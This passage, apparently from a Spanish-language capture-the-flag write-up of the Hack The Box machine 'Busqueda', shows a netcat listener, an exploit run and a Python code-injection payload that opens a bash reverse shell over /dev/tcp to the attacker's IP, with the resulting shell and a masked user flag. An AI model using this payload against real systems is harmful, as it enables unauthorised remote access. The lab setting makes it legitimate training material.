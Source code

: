 Iniciamos un listener en nuestro host de ataque
```
nc -nlvp 1234
```

Ejecutamos el exploit indicando la URL del objetivo y nuestra IP y puerto del host de ataque para ganar acceso al objetivo:

```
./exploit.sh http://searcher.htb 10.10.14.8 1234 
```


![](assets/Pasted%20image%2020250503115515.png)

Esto mismo se podría hacer también usando el siguiente payload interceptando la petición con la herramienta Burp Suite:

```python
'),__import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.14.41/9001 0>&1"')#
```

```bash
❯ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.41] from (UNKNOWN) [10.10.11.208] 47898
bash: cannot set terminal process group (1641): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:/var/www/app$ whoami
svc
```

¡Éxito! Hemos obtenido acceso al sistema como usuario `svc`.

### Flag de Usuario

```bash
svc@busqueda:~$ cat user.txt 
4a7480a3b6c75f12****************
```

---

## 🔐 Escalada de Privilegios
